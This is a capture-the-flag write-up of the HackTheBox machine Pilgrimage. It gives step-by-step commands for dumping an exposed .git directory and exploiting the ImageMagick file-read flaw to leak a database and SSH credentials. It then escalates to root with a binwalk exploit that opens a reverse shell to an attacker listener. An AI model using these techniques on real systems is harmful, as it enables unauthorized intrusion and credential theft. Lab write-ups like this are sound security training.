[Easy] Pilgrimage

Full compromise on June 29, 2023Written on March 29, 2024
Pilgrimage is my 11th machine to compromise on HackTheBox. This Linux machine mainly features vulnerable software. ImageMagick with a arbitrary file read vulnerability, and binwalk with a RCE vulnerability.
Enumeration
Nmap
Let's start with an Nmap scan, first scanning for any open ports, then scanning those open ports for more information.
nmap 10.10.11.219 -p- --min-rate=3000nmap 10.10.11.219 -p22,80 -sC -sV --min-rate=3000The Nmap scans show a redirect to http://pilgrimage.htb on port 80. We'll add this to our hosts file and link it to 10.10.11.219.
echo "10.10.11.219" pilgrimage.htb | sudo tee -a /etc/hostscat /etc/hostsTCP Port 80 - HTTP
Navigating to http://pilgrimage.htb, we are presented with this website:
We're able to login, register, and upload an image. It seems like the main functionality of this web application is to shrink uploaded images. If we create an account and upload an image, the shrunken image will be saved to our dashboard.
Poking around, it seems like navigating to http://pilgrimage.htb/shrunk/../../../../../../../etc/passwd in hopes for a local file inclusion vulnerability, it doesn't work.
We'll enumerate more. We'll fuzz for directories in case there's a hidden one.
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://pilgrimage.htb/FUZZFfuf revealed a notable directory called .git. The .git directory potentially holds previous changes to the website which may hold juicy information.
If we try to navigate directly to http://pilgrimage.htb/.git, we get a 403 forbidden error.
But if we try to navigate to http://pilgrimage.htb/.git/config, it downloads the .git/config file.
We'll find a tool that can export the .git directory. A quick Google search will reveal what we need. We can use a tool called git-dumper.
From the git repository arthud/git-dumper:
After installing the tool, we'll now extract the .git repository.
python3 ./git_dumper.py http://pilgrimage.htb/.git ~/pilgrimageNot only the tool extracted the .git repository, it also rebuilt/extracted the source .php files from the .git directory.
The magick binary is interesting and unusual to be in web root. If we run the magick binary, we can get the version number.
(I mainly use an Apple Silicon MacBook with a Kali Linux VM. I had to transfer the magick binary to an Intel (x86) machine to be able to run it.)
chmod +x ./magick./magick -versionExploit - Arbitrary File Read
Searching Google for an exploit for that version, we can find an arbitrary file read proof-of-concept (PoC).
The Exploit-DB article leads to this GitHub repository:
The GitHub repository contains the original POC of the ImageMagick vulnerability. According to the original article of the vulnerability from metabaseq, if there is an added textual chunk type to the image with the keyword "profile", then ImageMagick will interpret that string as a filename and will load the content.
This PoC will essentially do that. It will add a textual chunk type with the keyword "profile" to an image and add a filename to it. Let's use the exploit.
We'll follow the instructions on the git repository to generate our modified image. We'll first try to read /etc/passwd from the target machine.
git clone https://github.com/voidz0r/CVE-2022-44268cd CVE-2022-44268cargo run "/etc/passwd"Now that our image is generated, let's upload it to the target.
We'll follow the link and download our shrunken image. If we look into the metadata of the shrunken image, we can see a bunch of hex code.
identify -verbose 660b6d5331b4e.pngThrowing this hex code into Cyberchef to convert it to string, we get the contents of the /etc/passwd file. This confirms that we have file read on the target machine.
From the source files we got from extracting the .git directory, the file dashboard.php contains the file path for the SQL database.
Knowing the database file path, we can extract the database using the file read exploit and hopefully reveal sensitive information. Let's generate a new image with the database file path.
cd ~/CVE-2022-44268cargo run "/var/db/pilgrimage"Now we'll upload our image, download the shrunken version of our image, inspect the metadata, and throw the hex code to Cyberchef.
From the output, we can see the username and password of the account I created (Username: hack, Password: 1). We can also see another set of credentials with the username of emily and password abigchonkyboi123. Let's try to SSH into the target machine with these set of credentials.
ssh emily@10.10.11.219abigchonkyboi123It works. We're in the target machine. Let's get user flag.
cat ~/user.txtPrivilege Escalation - Binwalk RCE
Inspecting running processes, there's an process running an unusual script called "malwarescan.sh" by root.
ps auxReading the script, it's main function is to use a binary called "binwalk" to analyze uploaded images at /var/www/pilgrimage.htb/shrunk. If the image is actually an executable script, it will delete the image.
Running the binary with no arguments, we can find the binary version number.
/usr/local/bin/binwalkWe can find a public exploit on the internet that matches the binary version number.
This article by OneKey explains the vulnerability. The vulnerability in binwalk lies within the usage of "os.path.join" in its Python source code. In version 2.3.2, there was a change in attempt to prevent path traversal when merging a PFS Extractor plugin. In the change, os.path.join is used to form the path of the desired file to be extracted. Then, a condition checks if the formed path isn't going outside the extraction directory. The problem is that os.path.join doesn't completely resolve the path if it contained "../". This means that the condition is never met and binwalk will write files anywhere in the filesystem.
This can be used to write a binwalk plugin to the plugin directory. Binwalk plugins are activated when they're dropped into the plugin directory, and the plugin can be made to execute a shell command, thus granting remote command execution.
The public exploit will create a malicious PFS file which will tell binwalk to load a malicious plugin which will send a reverse shell to a listener. Let's use it.
First we'll set up our listener on our attack machine.
nc -lvnp 4444Then we'll copy paste the exploit to the target machine and run the it, giving it a template .png file (so the malicious .png file has an actual image) and our listener IP and port. Then I'll move the malicious .png file to the /var/www/pilgrimage.htb/shrunk directory so binwalk can analyze it and trigger our payload.
nano poc.pypython3 poc.py /var/www/pilgrimage.htb/shrunk/660bad2bc211e.png 10.10.14.4 4444mv binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/binwalk_exploit.pngOn our listener, we get a reverse shell as root and obtained the root flag.
whoamicat /root/root.txt